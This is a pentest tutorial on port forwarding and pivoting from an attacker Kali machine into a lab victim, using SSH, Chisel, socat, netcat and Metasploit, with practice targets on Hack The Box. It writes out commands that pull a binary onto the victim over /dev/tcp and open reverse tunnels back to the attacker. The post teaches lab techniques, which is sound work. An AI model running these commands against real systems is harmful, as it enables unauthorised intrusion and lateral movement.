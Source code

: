 ```yaml
---
title: "Basic Port Forwarding Techniques"
author:
  name: Miguel Guerrero
  link: https://mikemighthack.me
date: 2022-03-08 11:33:00 +0105
categories: [Tutorials, Port Forwarding]
tags: [ssh, chisel, socat, netcat, msf]
math: true
mermaid: true
---
```


In this post we will see different port forwarding tools and techniques.
To see the different examples, we will use the following fictitious scenario.

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310123314.png){: .align-center}

Our attacking Kali machine (192.168.164.133) and our victim Ubuntu machine (192.168.164.130) which is running a python simple HTTP server only accessible locally. 

The different tools that we are going to see are:
 - SSH
- Chisel
- Socat
- Netcat
- Msfconsole / meterpreter

## SHH
We can pivot using ssh in three different ways:
 - SSH Local port forwarding
- SSH Remote port forwarding
- SSH Dynamic port forwarding (SOCKS)


### SSH Local port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133017.png){: .align-center}

```bash
      root@kali:~$ ssh -L 9000:127.0.0.1:8000 ust@192.168.164.130
```

This command will make the remote web server accessible, on our localhost on port 9000.

### SSH Remote port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132100.png){: .align-center}

```shell
    victim@ubuntu:~$ sudo ssh -R 9090:localhost:8000 kali@192.168.164.133
```

We have to run this command from the victim machine, once we have gained access to it. With this command, we will be able to access from our Kali to the remote application in our localhost, port 9090.

### SSH Dynamic port forwarding (SOCKS)

First we need to configure our proxychains file: **/etc/proxychains.conf**

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132643.png){: .align-center}

We set socks4 on port 9000.

Then we run the following ssh command:

```shell
    root@kali:~$ ssh -D 9000 victim@192.168.164.130
```

After that, we need to configure the proxy in our browser (in this case, using foxyproxy.) 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133340.png){: .align-center}

We set the Proxy Type as **SOCKS4** and use the configuration we put in the proxychains.conf file.

Finally, we will be able to reach the remote HTTP server from our Kali as is it shown in the image below. 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133601.png){: .align-center}


## Chisel

How to install and execute Chisel:

Kali machine:
``` shell
root@kali:~/tools$ git clone https://github.com/jpillora/chisel.git
root@kali:~/tools$ cd chisel
root@kali:~/tools/chisel$ go build –ldflags=“-s –w”
root@kali:~/tools/chisel$ upx brute chisel 
root@kali:~/tools/chisel$ nc -lvnp 6666 < chisel
root@kali:~/tools/chisel$ ./chisel server -p 8002 -reverse -v
```

Victim machine:

``` shell
ust@ubuntu:~/tmp$ cat < /dev/tcp/192.168.164.133/6666 > chisel
ust@ubuntu:~/tmp$ chmod 755 chisel
ust@ubuntu:~/tmp$ ./chisel client 192.168.164.133:8002 R:127.0.0.1:8000
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310134836.png){: .align-center}

Then we will be able to reach the remote HTTP server in our localhost port 8000.

## Socat

```sh
root@kali:~/tools$ socat TCP-LISTEN:localport,fork,reuseaddr TCP:remoteIP:remoteport
root@kali:~/tools$ socat TCP-LISTEN:10000,fork,reuseaddr TCP:192.168.164.130:8000
```

## Netcat
```sh  
root@kali:~/tools$ mknod pivot p
root@kali:~/tools$ nc -l -p 12000 0<pivot | nc 192.168.164.130 8000 1>pivot
```

## Msfconsole / meterpreter

Use auxiliary/scanner/ssh/ssh_login module to create a session

```sh
root@kali:~/tools$ msfconsole
msf5 use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.164.130
msf5 auxiliary(scanner/ssh/ssh_login) > set username victim
msf5 auxiliary(scanner/ssh/ssh_login) > set password pass
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -l 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u ‘id’
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i ‘id’
```

Once connected, use the meterpreter session opened and do the port forwarding:

```sh
meterpreter > portfwd -h
meterpreter > portfwd add -l 1234 -p 8000 -r 192.168.164.130
meterpreter > portfwd list
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310135630.png){: .align-center}

## Practice
If you want to practice the techniques and tools explained in this post, you can make the following hack the box machines:

- Granny
- Grandpa
- Vault
- Reddish
